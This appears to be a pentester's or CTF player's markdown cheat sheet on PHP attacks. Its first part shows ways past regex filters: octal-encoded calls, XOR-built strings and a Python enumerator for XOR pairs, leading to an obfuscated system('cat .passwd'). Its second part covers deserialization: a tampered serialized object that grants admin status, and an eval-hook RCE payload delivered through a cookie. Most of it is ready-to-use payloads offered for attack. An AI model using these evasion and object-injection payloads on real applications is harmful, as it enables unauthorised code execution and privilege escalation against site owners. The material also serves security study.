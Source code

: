# PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- Xor operation

		import string
 
		if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            		x = chr(ord(i)^ord(j))
            		if x in s1+'_':
                		print '{0}\t{1}\t{2}'.format(i,j,x)

	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);

- Object vuln

Serializing
When you need to store a PHP object or transfer it over the network, you use serialize() to pack it up.
serialize(): PHP object -> plain old string that represents the obj
When you need to use that data, use unserialize() to unpack and get the underlying object.
unserialize(): string containing object data -> original object
For example, this code snippet will serialize the object “user”.
	<?php
	class User{
	public $username;
	public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	echo serialize($user);
	?>
Run the code snippet, and you will get the serialized string that represents the “user” object.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Serialized string structure
Let’s break this serialized string down! The basic structure of a PHP serialized string is “data type: data”. For example, “b” represents a boolean.
	b:THE_BOOLEAN;
“i” represents an integer.
	i:THE_INTEGER;
“d” represents a float.
	d:THE_FLOAT;
“s” represents a string.
	s:LENTH_OF_STRING:"ACTUAL_STRING";
“a” represents an array.
	a:NUMBER_OF_ELEMENTS:{ELEMENTS}
And finally, “O” represents an object.
	O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}
So we can see our serialized string here represents an object of the class “User”. It has two properties. The first property has the name “username” and the value “vickie”. The second property has the name “status” and the value “not admin”.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Deserializing
When you are ready to operate on the object again, you can deserialize the string with unserialize().
	<?php
	class User{
	public $username;
	public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	$serialized_string = serialize($user);
	$unserialized_data = unserialize($serialized_string);
	var_dump($unserialized_data);
	var_dump($unserialized_data["status"]);
	?>
Unserialize() under the hood
So how does unserialize() work under the hood? And why does it lead to vulnerabilities?
What are PHP magic methods?
PHP magic methods are function names in PHP that have “magical” properties. Learn more about them here.
The magic methods that are relevant for us now are __wakeup() and __destruct(). If the class of the serialized object implements any method named __wakeup() and __destruct(), these methods will be executed automatically when unserialize() is called on an object.
Step 1: Object instantiation
Instantiation is when the program creates an instance of a class in memory. That is what unserialize() does. It takes the serialized string, which specifies the class and the properties of that object. With that data, unserialize() creates a copy of the originally serialized object.
It will then search for a function named __wakeup(), and execute code in that function. __wakeup() reconstructs any resources that the object may have. It is used to reestablish any database connections that have been lost during serialization and perform other reinitialization tasks.
Step 2: Program uses the object
The program operates on the object and uses it to perform other actions.
Step 3: Object destruction
Finally, when no reference to the deserialized object instance exists, __destruct() is called to clean up the object.
Exploiting PHP deserialization
When you control a serialized object that is passed into unserialize(), you control the properties of the created object. You might also be able to hijack the flow of the application by controlling the values passed into automatically executed methods like __wakeup() or __destruct().
This is called a PHP object injection. PHP object injection can lead to variable manipulation, code execution, SQL injection, path traversal, or DoS.
Controlling variable values
One possible way of exploiting a PHP object injection vulnerability is variable manipulation. For example, you can mess with the values encoded in the serialized string.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
In this serialize string, you can try to change the value of “status” to “admin”, and see if the application grants you admin privileges.
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:5:"admin";}
Getting to RCE
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from https://www.owasp.org/index.php/PHP_Object_Injection)
	class Example2
	{
	  private $hook;   
	  function __construct(){
	      // some PHP code...
	  }   
	  function __wakeup(){
	      if (isset($this->hook)) eval($this->hook);
	  }
	}
// some PHP code...
	$user_data = unserialize($_COOKIE['data']);
// some PHP code...
You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs eval() on user-provided input.
To exploit this RCE, you simply have to set your data cookie to a serialized Example2 object with the hook property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:
	class Example2
	{
	   private $hook = "phpinfo();";
	}
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.
